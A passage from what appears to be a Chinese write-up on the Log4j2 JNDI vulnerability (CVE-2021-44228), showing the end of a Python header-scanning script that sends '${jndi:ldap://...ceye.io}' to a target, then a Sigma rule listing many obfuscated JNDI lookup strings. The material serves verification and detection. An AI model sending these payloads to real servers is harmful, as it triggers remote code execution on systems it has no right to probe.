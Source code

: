 ```
req = requests.get(url, headers=headers, cookies=Cookie, timeout=10)
except Exception as e:
print(e)

if __name__ == '__main__':
url = "http://192.168.80.155:8080/hello" # 输入url地址
payload = "${jndi:ldap://yx3r0p.ceye.io}" # 输入dnslog地址
header_scan(url, payload) # 只验证头信息
```  
  
  
  
  
检测规则  
  
**Sigma检测规则如下：**  
```
title: Log4j2远程代码执行漏洞（CVE-2021-44228）漏洞
description: 检测Log4j2远程代码执行漏洞（CVE-2021-44228）漏洞
status: test
date: 2022/04/29
author: bigsea
logsource:
category: webserver
detection:
keywords:
- '${jndi:ldap:/'
- '${jndi:rmi:/'
- '${jndi:ldaps:/'
- '${jndi:dns:/'
- '/$%7bjndi:'
- '%24%7bjndi:'
- '$%7Bjndi:'
- '%2524%257Bjndi'
- '%2F%252524%25257Bjndi%3A'
- '${jndi:${lower:'
- '${::-j}${'
- '${jndi:nis'
- '${jndi:nds'
- '${jndi:corba'
- '${jndi:iiop'
- 'Reference Class Name: foo'
- '${${env:BARFOO:-j}'
- '${::-l}${::-d}${::-a}${::-p}'
- '${base64:JHtqbmRp'
- '${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}$'
- '${${lower:j}ndi:'
- '${${upper:j}ndi:'
- '${${::-j}${::-n}${::-d}${::-i}:'
filter:
- 'w.nessus.org/nessus'
- '/nessus}'
condition: keywords and not filter
falsepositives:
- Vulnerability scanning
level: high
```  
  